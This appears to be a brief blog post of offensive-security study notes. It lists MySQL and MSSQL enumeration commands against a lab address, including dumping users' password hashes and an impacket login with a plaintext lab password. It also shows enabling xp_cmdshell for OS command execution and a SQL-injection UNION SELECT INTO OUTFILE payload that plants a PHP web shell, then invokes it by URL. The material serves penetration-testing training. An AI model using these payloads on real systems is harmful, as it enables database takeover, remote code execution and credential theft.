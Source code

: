 ```yaml
---
layout: post
title: SQL COMMANDS
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>MySQL</h4>

connect to remorte mysql database

    $ mysql -u root -p'root' -h 192.168.50.50 -P 3306

    $ select version();

return current user and hostname

    $ select system_user();

list databases

    $ show databases;

show tables in database

    $ show tables from mysql;

enter database

    $ use database;

list users

    $ SELECT user FROM mysql. user; 

list all values available to user

    $ select * from mysql.user where user = 'don';

show authentication_string of user

    $ SELECT user, authentication_string FROM mysql.user WHERE user = 'don';

showing specific value of user

    $ select plugin from mysql.user where user = 'don';


<h4>MSSQL</h4>

we can use impacket to connect to mssql on windows

    $ impacket-mssqlclient Administrator:Lab123@192.168.50.50 -windows-auth

    $ SELECT @@version;

list databases

    $ SELECT name FROM sys.databases;

we don't care about the master tempdb model and msdb databases

query tables in database we care about

    $ SELECT * FROM don.information_schema.tables;

query specific table information

    $ select * from don.dbo.users;

explore sysuers table inside master database

    $ select * from master.dbo.sysusers;

<h4>xp_cmdshell</h4>

after we connect to the db

    $ EXECUTE sp_configure 'show advanced options', 1;
    $ RECONFIGURE;
    $ EXECUTE sp_configure 'xp_cmdshell', 1;
    $ RECONFIGURE;
    $ EXECUTE xp_cmdshell 'whoami';

we can write files on the server with SELECT INTO_OUTFILE

    $ ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

here we try to use a union select to write a php web shell to /htmp/tmp on the server

now by entering the above statement into the form field we are injecting our webshell to the specified directory

and then in the url - we can attempt to perform the http request to our webshell with the cmd=

    http://192.168.50.50/tmp/webshell.php?cmd=id
